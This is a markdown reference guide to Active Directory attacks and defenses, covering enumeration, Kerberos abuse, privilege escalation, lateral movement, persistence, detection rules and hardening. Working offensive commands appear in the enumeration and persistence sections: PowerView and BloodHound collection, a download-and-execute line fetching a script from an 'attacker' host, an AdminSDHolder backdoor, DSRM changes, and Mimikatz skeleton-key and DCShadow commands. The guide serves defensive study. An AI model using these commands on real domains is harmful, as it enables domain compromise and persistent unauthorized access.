




# Active Directory - Attacks & Defense Deep Dive

> [!CAUTION]
> **Authorized use only.** The techniques below are for authorized security
> testing, education, and defensive research. Activity without authorization may violate criminal or civil law, contracts, or policy depending on jurisdiction, scope, and conduct. Define written scope and consult qualified counsel where needed. See
> [LEGAL.md](../LEGAL.md).

> **Scope:** Active Directory attack techniques, post-exploitation paths, Kerberos abuse, privilege escalation, and corresponding defensive controls and detection logic. Structured for both red and blue team reference.

✅ **Quick-reference checklists:** [Active Directory](../Checklists/ActiveDirectory.md) · [Domain Escalation](../Checklists/Domain-Escalation.md) · [Domain Persistence](../Checklists/Domain-Persistence.md) · [Lateral Movement](../Checklists/Lateral-Movement.md)

---

## Table of Contents

1. [AD Architecture Overview](#ad-architecture-overview)
2. [Enumeration & Reconnaissance](#enumeration--reconnaissance)
3. [Credential Attacks](#credential-attacks)
4. [Kerberos Attacks](#kerberos-attacks)
5. [Privilege Escalation Paths](#privilege-escalation-paths)
6. [Lateral Movement](#lateral-movement)
7. [Domain Persistence](#domain-persistence)
8. [Detection & Hunting](#detection--hunting)
9. [Defensive Hardening](#defensive-hardening)
10. [AD Security Assessment Checklist](#ad-security-assessment-checklist)

---

## 🎯 Purpose
The full-depth AD attack/defense reference - where [ultimate_cybersecurity_master_guide.md](../ultimate_cybersecurity_master_guide.md)'s Active Directory Attacks section covers the topic briefly, this file goes deep on enumeration, credential attacks, Kerberos abuse, privilege-escalation paths, lateral movement, and domain persistence with matching detection/hardening guidance.

## ⚙️ Function
10 sections progressing from AD architecture through enumeration, credential attacks, Kerberos abuse, privilege escalation, lateral movement, domain persistence, detection/hunting, defensive hardening, and a closing security assessment checklist. Pairs with 4 dedicated quick-reference checklists ([Active Directory](../Checklists/ActiveDirectory.md), [Domain Escalation](../Checklists/Domain-Escalation.md), [Domain Persistence](../Checklists/Domain-Persistence.md), [Lateral Movement](../Checklists/Lateral-Movement.md)); differs from [c2-frameworks.md](c2-frameworks.md) and [lolbins-lolbas.md](lolbins-lolbas.md), which cover post-exploitation tooling/technique generally rather than AD-specific attack paths.

## 🏆 Goal
A red teamer can execute a full AD compromise chain (enumeration through domain persistence) and a blue teamer can detect and harden against each stage using the same file.

## 📋 When to Use
During AD-focused engagements or assessments, or when building detection/hardening controls against Kerberos abuse, credential attacks, or privilege escalation in a Windows domain.

## AD Architecture Overview

```
Forest
└── Domain: corp.local
    ├── Domain Controllers
    │   ├── PDC Emulator (FSMO)
    │   └── Additional DCs
    ├── Organizational Units (OUs)
    │   ├── Workstations
    │   ├── Servers
    │   └── Users
    ├── Group Policy Objects (GPOs)
    ├── Sites & Subnets
    └── Trusts
        ├── Child domains
        └── External/forest trusts
```

### Key AD Components

| Component | Role |
|---|---|
| Domain Controller | Authenticates users, stores directory, replicates AD |
| SYSVOL | Shared folder on DCs storing GPOs, logon scripts |
| NTDS.dit | AD database - contains all hashes and objects |
| Global Catalog | Cross-domain search index |
| FSMO Roles | 5 single-master operations roles (PDC Emulator, RID Master, etc.) |
| Kerberos KDC | Issues TGTs (krbtgt) and service tickets |
| LDAP | Directory access protocol - used for all AD queries |
| DNS | AD-integrated DNS is critical for domain function |

### Trust Types

| Trust | Direction | Notes |
|---|---|---|
| Parent-Child | Bidirectional, transitive | Automatic within forest |
| Forest | Configurable | Between separate forests |
| External | Non-transitive | Legacy, specific domain-to-domain |
| Shortcut | Manual | Optimize auth paths |

---

## Enumeration & Reconnaissance

### PowerView

```powershell
# Import PowerView
Import-Module .\PowerView.ps1
# or IEX (New-Object Net.WebClient).DownloadString('http://attacker/PowerView.ps1')

# Domain information
Get-Domain
Get-DomainController
Get-DomainTrust
Get-ForestTrust

# User enumeration
Get-DomainUser
Get-DomainUser -Properties name,memberof,description,lastlogon,pwdlastset
Get-DomainUser -Identity jsmith
Get-DomainUser -AdminCount 1   # Find admin accounts

# Group enumeration
Get-DomainGroup
Get-DomainGroupMember -Identity "Domain Admins" -Recurse
Get-DomainGroupMember -Identity "Enterprise Admins"

# Computer enumeration
Get-DomainComputer -Properties name,operatingsystem,lastlogon
Get-DomainComputer -OperatingSystem "*Server*"
Get-DomainController -Domain corp.local

# Find where users are logged in
Get-NetLoggedon -ComputerName DC01
Get-NetSession -ComputerName DC01
Find-DomainUserLocation -UserName "DA_User"   # Find where DA is logged in

# ACL/permission enumeration
Get-DomainObjectAcl -Identity "Domain Admins" -ResolveGUIDs
Get-ObjectAcl -DistinguishedName "DC=corp,DC=local" -ResolveGUIDs | 
  Where-Object {$_.ActiveDirectoryRights -match "GenericAll|WriteProperty|WriteDacl"}

# Find misconfigured ACLs (path to DA via ACL abuse)
Find-InterestingDomainAcl -ResolveGUIDs | Where-Object {$_.IdentityReferenceName -notmatch "Domain Admins|Enterprise Admins|SYSTEM"}

# GPO enumeration
Get-DomainGPO
Get-DomainGPOUserLocalGroupMapping   # GPOs granting local admin

# Share enumeration
Find-DomainShare
Find-InterestingDomainShareFile -Include *.txt,*.ps1,*.xml,*.config
```

### BloodHound

BloodHound maps attack paths through AD by analyzing ACLs, group memberships, and session data.

```bash
# Collect data with SharpHound
.\SharpHound.exe -c All --zipfilename bloodhound_data.zip
.\SharpHound.exe -c DCOnly    # DC-only, less noise
.\SharpHound.exe -c All --stealth  # Slower but quieter

# Run BloodHound
neo4j console &
bloodhound &
# Upload zip file via GUI

# Useful Cypher queries
# Find shortest path to Domain Admins
MATCH p=shortestPath((u:User {owned:true})-[*1..]->(g:Group {name:"DOMAIN ADMINS@CORP.LOCAL"})) RETURN p

# Find all DA sessions on non-DC hosts
MATCH (u:User)-[:MemberOf]->(g:Group {name:"DOMAIN ADMINS@CORP.LOCAL"}),
      (c:Computer)-[:HasSession]->(u)
WHERE NOT c.name ENDS WITH ".DC.CORP.LOCAL"
RETURN u.name, c.name

# Find Kerberoastable accounts with DA path
MATCH (u:User {hasspn:true}) WHERE u.admincount = true RETURN u.name

# Find computers where DA is admin
MATCH (g:Group {name:"DOMAIN ADMINS@CORP.LOCAL"})-[:AdminTo]->(c:Computer) RETURN c.name
```

### LDAP Enumeration

```bash
# ldapsearch (Linux)
ldapsearch -H ldap://DC01.corp.local -x -b "DC=corp,DC=local" \
  -D "corp\user" -w "Password1" "(objectClass=user)" cn sAMAccountName

# Enumerate users without authentication (null bind - often disabled)
ldapsearch -H ldap://DC01.corp.local -x -b "DC=corp,DC=local" "(objectClass=user)"

# Find accounts with password not required
ldapsearch -H ldap://DC01 -x -b "DC=corp,DC=local" \
  "(&(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=32))" cn

# Find accounts that don't require Kerberos pre-auth (AS-REP roastable)
ldapsearch -H ldap://DC01 -x -b "DC=corp,DC=local" \
  "(&(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" cn
```

---

## Credential Attacks
 
Credential abuse includes password guessing, stolen credential reuse, authentication relay, and secret extraction. These techniques overlap in telemetry; investigate the account, endpoint, protocol, and sequence rather than labeling a single event as proof.
 

 
### Password Spraying
 
Review authentication failures across accounts and sources, then correlate any successful sign-ins and follow-on access. Consider lockout policy, authentication method, expected service activity, and approved testing windows. A high count alone can be caused by stale applications or misconfigured services; do not treat it as an automatic compromise verdict.
 
### Pass-the-Hash (PtH)
 
This describes authentication using reusable NTLM credential material. Defenders should investigate unusual NTLM network logons, source-to-destination patterns, privileged account use from workstations, and subsequent service or process activity. Event 4624 with NTLM is a lead, not proof of hash reuse.
 
### Pass-the-Ticket (PtT)
 
A reused Kerberos ticket can appear as otherwise valid authentication. Review ticket-related events with endpoint context, account logon patterns, device identity, privilege, and the intended service. Protecting a ticket-granting ticket does not remove every risk: application service tickets and supplied credentials have separate protection considerations.
 
### NTLM Relay
 
Relay risk depends on protocol and service configuration. Review unexpected NTLM authentication, name-resolution activity, destination services, and whether the server requires the relevant signing or channel-binding protections.
 
- Enforce SMB signing where supported and verify effective policy.
- For LDAP, assess signing and channel binding together with the actual bind and transport type. Microsoft notes that LDAP signing alone does not prevent NTLM relay in every scenario.
- Reduce or disable NTLM only through a compatibility-tested, organization-managed migration plan.
 
See Microsoft's [SMB signing overview](https://learn.microsoft.com/en-us/troubleshoot/windows-server/networking/overview-server-message-block-signing) and [LDAP channel-binding guidance](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/ldap-channel-binding).
 
### Credential Dumping
 
Treat unusual access to LSASS, credential stores, the SAM, or domain-controller databases as a high-priority investigation signal. Correlate process identity, signer, host role, user activity, security-product telemetry, and approved administration. Credential Guard and LSA protection reduce some credential-theft paths but have platform and application dependencies; Credential Guard does not protect the AD database on domain controllers or every supplied credential. Review Microsoft's [Credential Guard overview](https://learn.microsoft.com/en-us/windows/security/identity-protection/credential-guard/) and [LSA protection guidance](https://learn.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/configuring-additional-lsa-protection).
 
If exposure is suspected, preserve relevant logs and follow the organization's incident-response plan for host isolation, credential/session recovery, and domain-level remediation. Avoid ad hoc password changes on domain controllers; forest-level recovery actions require the current Microsoft procedure and healthy replication.
 

## Kerberos Attacks
 
Kerberos attack paths often exploit weak service-account secrets, disabled pre-authentication, compromised ticket-signing keys, or excessive delegation. The labels below describe risk patterns for defenders; they are not instructions to obtain or forge tickets.
 

 
```mermaid
sequenceDiagram
    participant U as User or workload
    participant K as Domain controller KDC
    participant S as Approved service
    U->>K: Request TGT (event 4768)
    K-->>U: TGT after configured authentication
    U->>K: Request service ticket for SPN (event 4769)
    K-->>U: Service ticket
    U->>S: Authenticate to service
    Note over K,S: Correlate DC and endpoint logs; visibility depends on audit policy and protocol context
```
 
### Kerberoasting
 
A service ticket for an SPN is encrypted using key material derived from the service account secret. Weak or long-lived secrets may be vulnerable to offline guessing if a ticket is obtained. The ticket is not simply “encrypted with the account's NTLM hash” in every encryption mode.
 
Review event 4769 for unusual request volume, accounts, source hosts, target SPNs, and encryption types. Validate against service baselines and change history. Prefer managed service accounts where supported, use long randomly generated secrets, limit account privileges, remove stale SPNs, and migrate away from obsolete encryption only after compatibility review.
 
### AS-REP Roasting
 
Accounts configured not to require Kerberos pre-authentication can receive a TGT response without first proving knowledge of the account secret. The response material can be subjected to offline guessing. Review event 4768 for pre-authentication type 0 and verify the account's effective configuration. Require pre-authentication unless a documented compatibility exception is approved; protect exceptions with strong managed secrets, limited privileges, and monitoring.
 
### Golden Ticket
 
A forged ticket-granting ticket requires compromise of the domain's krbtgt key. Changing an individual user's password does not rotate that domain key. Do not use a fixed ticket lifetime or a single event field as a universal detection claim: ticket policy, implementation, and telemetry affect what is visible.
 
If krbtgt compromise is suspected, treat it as a domain-level incident. Preserve DC and endpoint evidence and follow Microsoft's current [krbtgt forest-recovery procedure](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/forest-recovery-guide/ad-forest-recovery-reset-the-krbtgt-password). The supported reset sequence depends on healthy replication and the configured ticket lifetimes; the documented 10-hour wait applies to default policy values.
 
### Silver Ticket
 
A service-ticket forgery risk is tied to compromise of the relevant service account key and the service's ticket validation behavior. Review service-account key exposure, SPN ownership, the destination service's logs, and related endpoint sign-ins. Avoid calling this technique inherently stealthy or assuming every service validates or logs tickets identically.
 
### Diamond Ticket
 
“Diamond ticket” is a research and tool-community label for a ticket-modification approach involving a legitimate ticket. Treat the label as a hypothesis, not a reliable detection signature. Investigate unusual ticket attributes and subsequent access in the context of the account, device, service, and domain-controller telemetry.
 
### Constrained Delegation Abuse
 
Delegation allows a service to act on behalf of a user under configured conditions. Unconstrained delegation can expose delegated credentials to a host when clients authenticate to it; constrained and resource-based constrained delegation limit the target scope but can still be misconfigured or changed by principals with excessive permissions.
 
Inventory delegation settings and their owners, review changes to delegation attributes and ACLs, remove unnecessary trust, and prefer narrowly scoped configurations. Test service dependencies before changes and monitor privileged service identities and destination access.
 

## Privilege Escalation Paths
 
Excessive directory permissions can let a principal change objects, policies, group membership, or replication settings. Treat each path as a permission-review and change-monitoring problem; a graph edge identifies a possible path, not proof that it was used.
 

 
### ACL Abuse
 
Review effective permissions and ownership on privileged users and groups, organizational units, domain objects, service accounts, and policy objects. Pay special attention to broad rights such as full control, permission changes, ownership changes, password-reset rights, and group-membership changes. Confirm the trustee, inheritance, scope, and business owner before changing an ACL.
 
### GPO Abuse
 
Treat Group Policy Objects as privileged software-deployment mechanisms. Review who can edit each GPO, link it to sites/domains/OUs, change delegation, and modify its SYSVOL content. Compare sensitive policy changes with an approved change record and verify the resulting scope on affected systems. Protect administrative GPOs with limited ownership and staged change review.
 
### DCSync
 
Directory replication rights allow authorized principals and domain controllers to replicate directory data. Unexpected replication rights on domain naming contexts, or replication-like activity from an unapproved identity or host, needs urgent review. Event 4662 can provide evidence when appropriate auditing is enabled, but a rule must account for legitimate domain controllers and approved identity or backup products.
 
### Defensive review checklist
 
- Baseline privileged object owners, ACLs, GPO permissions, and replication rights.
- Verify that only approved principals and domain controllers hold replication permissions.
- Review changes to privileged groups, delegation settings, sensitive ACLs, GPOs, and AdminSDHolder.
- Correlate event 4662 and directory-change events with the actor, source device, object, property, and change window.
- Investigate unauthorized changes through the incident process; preserve relevant DC, endpoint, and Group Policy evidence before remediation.
- Retest access after approved changes and keep a rollback path.
 
Microsoft notes that SDProp runs every 60 minutes by default on the domain controller holding the PDC Emulator role and reapplies the AdminSDHolder descriptor to protected accounts and groups. An unexpected permission may therefore appear or be overwritten during this cycle; inspect both the template and affected objects. See Microsoft's [protected accounts and AdminSDHolder guidance](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/appendix-c--protected-accounts-and-groups-in-active-directory), [Active Directory attack-surface reduction guidance](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/reducing-the-active-directory-attack-surface), and [delegation of control documentation](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/delegation-control-wizard).
 

## Lateral Movement
 
Remote administration is common in managed Windows environments, so no single logon or remote-management event proves lateral movement. Correlate the destination host, account, source device, process, authentication type, service or task changes, and approved maintenance window.
 

 
### WMI Execution
 
For investigations, review the Microsoft-Windows-WMI-Activity/Operational log alongside destination-host Security events, process creation, network telemetry, and the originating account. WMI is also used by inventory, monitoring, and management software; confirm the source host and service owner before escalating.
 
### PsExec / Service-Based
 
Remote service creation can support legitimate software deployment and administration. Correlate destination logon events (4624), service-install events (4697 or System 7045 where available), initiating process and binary provenance, and the change record. Event coverage depends on audit policy and platform configuration.
 
### DCOM Lateral Movement
 
DCOM/RPC is used by legitimate management software and Windows components. Review unusual remote activation in the context of the account, source system, destination role, process lineage, and firewall/network events. The prior claim that DCOM is inherently “stealthier” than service-based administration was unsupported and has been removed.
 
### Overpass-the-Hash
 
This term describes a credential-abuse pattern that can involve NTLM-derived material and Kerberos authentication. Investigate unusual account use across authentication protocols, unexpected source hosts, privileged logons, and subsequent service access. NTLM or Kerberos events on their own do not prove that a hash or ticket was reused.
 
For log meanings and collection details, see Microsoft's [4624 event reference](https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4624), [service-install event reference](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-10/security/threat-protection/auditing/event-4697), and [WMI activity logging guide](https://learn.microsoft.com/en-us/windows/win32/wmisdk/logging-wmi-activity).
 

## Domain Persistence

### Golden Ticket Persistence

```powershell
# After obtaining krbtgt hash, forge tickets indefinitely
# Mitigate: reset krbtgt password TWICE (tickets have 10hr max lifetime, 7 day renewal)
# Detection: Windows Event ID 4769, anomalous PAC fields
```

### AdminSDHolder Abuse

```powershell
# AdminSDHolder ACL propagates to all protected groups every 60 minutes
# Add yourself to AdminSDHolder ACL = persistent admin rights

Add-DomainObjectAcl -TargetIdentity "CN=AdminSDHolder,CN=System,DC=corp,DC=local" `
    -PrincipalIdentity attacker `
    -Rights All
```

### DSRM Abuse

```powershell
# Directory Services Restore Mode password - local admin on DC even after domain compromise
# Enable DSRM logon via network (disabled by default)
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD

# Change DSRM password
ntdsutil "set dsrm password" "reset password on server null" "P@ssword1" q q
```

### Skeleton Key

```powershell
# Inject master password into LSASS on DC - all accounts accept both real and skeleton key
# Mimikatz (runs in memory, lost on reboot)
misc::skeleton

# After injection, any account can authenticate with password "mimikatz"
net use \\DC01\C$ /user:domain\Administrator mimikatz
```

### DCShadow

```powershell
# Register a rogue DC in AD, push arbitrary changes
# Requires DA privileges initially

# Terminal 1: Register as fake DC
mimikatz # lsadump::dcshadow /object:CN=attacker,CN=Users,DC=corp,DC=local /attribute:primaryGroupID /value:512

# Terminal 2: Push changes
mimikatz # lsadump::dcshadow /push
```

---

## Detection & Hunting

### Critical Windows Event IDs

| Event ID | Description | Attack Relevance |
|---|---|---|
| 4624 | Successful logon | Lateral movement, PtH (LogonType 3) |
| 4625 | Failed logon | Password spray, brute force |
| 4648 | Explicit credential logon | RunAs, PtH, lateral movement |
| 4662 | Object access (LDAP) | DCSync (GUID monitoring) |
| 4663 | Object access | File/directory access |
| 4672 | Special privilege logon | Admin rights granted |
| 4688 | Process creation | Execution tracking |
| 4720 | User account created | Persistence |
| 4728/4732/4756 | Member added to group | Privilege escalation |
| 4769 | TGS requested | Investigate unusual service-ticket patterns; encryption type alone is not proof |
| 4768 | Kerberos TGT requested (AS-REQ) | AS-REP roastable if pre-auth type 0 present in the event |
| 4771 | Pre-auth failure | Password spraying (wrong password on pre-auth-required accounts) |
| 4776 | NTLM credential validation | PtH detection |
| 5145 | Network share access | SMB enumeration, lateral movement |
| 7045 | Service installed | PsExec, lateral movement |
| 8004 | Kerberos AS-REQ | Unusual AS-REQ patterns (Microsoft-Windows-Kerberos-Key-Distribution-Center/Operational log, not Security log) |

### Kerberoasting Detection

RC4 service tickets (event 4769, encryption type 0x17) are a review signal, not proof of Kerberoasting; legacy applications may still require RC4. Baseline service accounts and client systems, then correlate ticket volume, unusual SPN targeting, requesting process, and approved encryption support before raising an alert. Test thresholds against local telemetry to limit false positives.

```kusto
// Starting point for a locally tuned Sentinel/Defender rule
SecurityEvent
| where EventID == 4769
| where TicketEncryptionType == "0x17"   // RC4; investigate in context
| where ServiceName !endswith "$"
| summarize ticket_count=count(), services=dcount(ServiceName)
    by AccountName, IpAddress, bin(TimeGenerated, 15m)
| where ticket_count > 5 or services > 3
```

### DCSync Detection

```powershell
# DCSync uses DRSUAPI replication rights - generates Event 4662
# Alert on: 4662 events where AccessMask = 0x100 AND Properties contain replication GUIDs

# GUID for "Replicating Directory Changes": {1131f6aa-9c07-11d1-f79f-00c04fc2dcd2}
# GUID for "Replicating Directory Changes All": {1131f6ab-9c07-11d1-f79f-00c04fc2dcd2}

Get-WinEvent -LogName Security -FilterXPath "*[System[EventID=4662]]" |
  Where-Object {
    $_.Properties[8].Value -match "1131f6aa|1131f6ab" -and
    $_.Properties[3].Value -notmatch "Domain Controller"
  }
```

### Lateral Movement Detection

```powershell
# Detect PsExec / service-based lateral movement
# Event 7045 (service installed) + 4624 (logon type 3) from same source

# Alert: Workstation to workstation SMB (not workstation to server)
# Most environments: workstations should not connect to each other via SMB

# WMI lateral movement
Get-WinEvent -LogName "Microsoft-Windows-WMI-Activity/Operational" |
  Where-Object {$_.Id -eq 5857 -or $_.Id -eq 5861}
```

### BloodHound Detection (SharpHound)

```powershell
# SharpHound generates large volumes of LDAP queries
# Event ID 1644 (LDAP query stats) on DC

# Detect by volume: hundreds of LDAP queries in short period from single source
# Detect by pattern: sequential enumeration of all users, computers, groups
```

### Sigma Rules

```yaml
title: Kerberoasting via RC4 Encryption
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 4769
        TicketEncryptionType: '0x17'
    filter:
        ServiceName|endswith: '$'
    condition: selection and not filter
level: high
tags:
    - attack.credential_access
    - attack.t1558.003

---

title: DCSync via Replication
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 4662
        Properties|contains:
            - '1131f6aa-9c07-11d1-f79f-00c04fc2dcd2'
            - '1131f6ab-9c07-11d1-f79f-00c04fc2dcd2'
    filter:
        SubjectUserName|endswith: '$'   # Filter out legitimate DC replication
    condition: selection and not filter
level: critical

---

title: AdminSDHolder Modification
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 5136
        ObjectDN|contains: 'CN=AdminSDHolder'
    condition: selection
level: critical
```

---

## Defensive Hardening

### Privileged Access Model

```
Tier 0: Domain Controllers, AD infrastructure, PKI
    → Only Tier 0 admins can log in
    → No internet access, locked down workstations

Tier 1: Servers, applications
    → Only Tier 1 admins (separate accounts from Tier 0)
    → No access to Tier 0 systems

Tier 2: Workstations, end-user devices
    → Helpdesk admins (separate accounts again)
    → No access to Tier 0 or Tier 1

Goal: Credential theft at one tier cannot be used at a higher tier
```

### Credential Hygiene

```powershell
# Disable WDigest (prevents cleartext passwords in LSASS)
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest" `
    -Name "UseLogonCredential" -Value 0

# Enable Protected Users group for privileged accounts
# Protected Users: no NTLM, no DES/RC4, 4hr TGT lifetime, no delegation
Add-ADGroupMember -Identity "Protected Users" -Members "DA_User1","DA_User2"

# Enable Credential Guard (Virtualization-Based Security)
# Prevents LSASS credential extraction

# Disable LLMNR (eliminates Responder attack surface)
Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows NT\DNSClient" `
    -Name "EnableMulticast" -Value 0

# Disable NetBIOS over TCP/IP
# Via DHCP scope option 001 or NIC properties
```

### Kerberos Hardening

```powershell
# Prefer AES where supported, after auditing dependencies and validating clients.
# AES raises offline cracking cost compared with RC4 but does not prevent Kerberoasting.
# Use long random service-account secrets or gMSAs, and least-privilege rights.

# Rotate krbtgt password regularly
# Use ADKerberosDelegation module or Microsoft's New-KrbtgtKeys.ps1
# Rotate twice (once to invalidate old tickets, once more 10 hours later)

# AS-REP roasting prevention - require pre-auth for all accounts
# Audit accounts with DONT_REQ_PREAUTH flag:
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true} -Properties DoesNotRequirePreAuth

# Fix:
Set-ADAccountControl -Identity account -DoesNotRequirePreAuth $false
```

### ACL Hardening

```powershell
# Audit delegated permissions - find non-admin objects with replication rights
Get-ADObject -Filter * -Properties ntSecurityDescriptor | 
  Where-Object {$_.ntSecurityDescriptor.Access | 
    Where-Object {$_.ObjectType -match "1131f6aa|1131f6ab" -and 
                  $_.IdentityReference -notmatch "Domain Admins|Enterprise Admins|SYSTEM"}}

# Remove dangerous permissions from default objects
# AdminSDHolder - audit who has write access
# Domain object root - audit for WriteDACL, GenericAll

# Enable AD Recycle Bin
Enable-ADOptionalFeature 'Recycle Bin Feature' -Scope ForestOrConfigurationSet -Target 'corp.local'
```

### LAPS (Local Administrator Password Solution)

```powershell
# LAPS randomizes and manages local Administrator passwords
# Prevents lateral movement via shared local admin creds

# Install LAPS
msiexec /q /i LAPS.x64.msi

# Set permissions
Set-AdmPwdComputerSelfPermission -OrgUnit "OU=Workstations,DC=corp,DC=local"

# Read LAPS password (requires permission)
Get-AdmPwdPassword -ComputerName WORKSTATION01
```

### Monitoring & Alerting Priorities

| Priority | Control | Attack Prevented |
|---|---|---|
| Critical | Monitor Event 4662 (DCSync GUIDs) | DCSync |
| Critical | Tier 0 logon outside DCs | Golden ticket use |
| Critical | AdminSDHolder modifications | Persistent DA path |
| High | Event 4769 RC4 TGS requests | Kerberoasting |
| High | Event 4624 Type 3 from workstation→workstation | Lateral movement |
| High | SMB signing enforcement | NTLM relay |
| High | New DA/EA/Schema Admin group members | Privilege escalation |
| Medium | LDAP query volume anomalies | BloodHound collection |
| Medium | New SPNs on user accounts | Targeted Kerberoasting |

---

## AD Security Assessment Checklist

```
Domain Configuration
☐ Default Domain Policy password settings (length, complexity, lockout)
☐ Accounts with password never expires
☐ Accounts with password not required
☐ Stale/inactive accounts (90+ days since last logon)
☐ AS-REP roastable accounts (no pre-auth required)
☐ Kerberoastable accounts (service accounts with weak passwords)
☐ krbtgt password age (should be rotated periodically)

Privilege Review
☐ Members of Domain Admins, Enterprise Admins, Schema Admins
☐ Members of Backup Operators, Account Operators, Print Operators
☐ Accounts in Protected Users group (should include all DA+)
☐ Service accounts with unnecessary admin rights
☐ Local admin sprawl (who has local admin on what)

Delegation
☐ Unconstrained delegation hosts (except DCs)
☐ Constrained delegation configurations
☐ Resource-Based Constrained Delegation (RBCD) misconfigurations

ACL/Permissions
☐ Non-admin write access to DA/EA groups
☐ Non-admin write access to GPOs
☐ Non-admin DCSync rights on domain object
☐ AdminSDHolder ACL review
☐ Computer object write permissions (RBCD abuse path)

Infrastructure
☐ LAPS deployed on all workstations and servers
☐ SMB signing enforced (prevents NTLM relay)
☐ LDAP signing and channel binding
☐ WDigest disabled
☐ Credential Guard enabled
☐ Tiered admin model implemented
☐ AD audit policy (4662, 4769, 4624, etc.) enabled and forwarded to SIEM
```

---

## References

- [BloodHound](https://github.com/SpecterOps/BloodHound)
- [PowerView / PowerSploit](https://github.com/PowerShellMafia/PowerSploit)
- [Impacket](https://github.com/fortra/impacket)
- [Rubeus](https://github.com/GhostPack/Rubeus)
- [MITRE ATT&CK: Credential Access](https://attack.mitre.org/tactics/TA0006/)
- [SpecterOps BloodHound Blog](https://specterops.io/blog/)
- [Harmj0y AD Security Blog](https://blog.harmj0y.net/)
- [Microsoft AD Security Best Practices](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/component-updates/executive-summary)
- [Pingcastle AD Health Check](https://www.pingcastle.com/)
- [Purple Knight](https://www.semperis.com/purple-knight/) - Free AD assessment tool

## Cloud identity is a separate assessment scope

[GraphSpy](https://github.com/RedByte1337/GraphSpy) is a Microsoft Graph-oriented platform for **Microsoft Entra ID / Microsoft 365** assessments. It is relevant to a hybrid identity engagement, but **not** a drop-in replacement for on-premises Active Directory tools in this chapter. Evaluate tenant-specific consent, Graph permissions and audit visibility separately; keep tokens and customer data out of logs and public issues, and obtain explicit scope authorization.

## Related Files
- [README.md](README.md) - Tradecraft section index
- [c2-frameworks.md](c2-frameworks.md) - C2 that executes AD post-exploitation
- [lolbins-lolbas.md](lolbins-lolbas.md) - LOLBins used in AD lateral movement
- [../Checklists/ActiveDirectory.md](../Checklists/ActiveDirectory.md) - AD attack checklist
- [../Checklists/Domain-Escalation.md](../Checklists/Domain-Escalation.md) - Domain escalation checklist
- [../Checklists/Domain-Persistence.md](../Checklists/Domain-Persistence.md) - Domain persistence checklist

---

[Section Index](README.md) | [Master Index](../README.md) | [Legal Notice](../LEGAL.md)
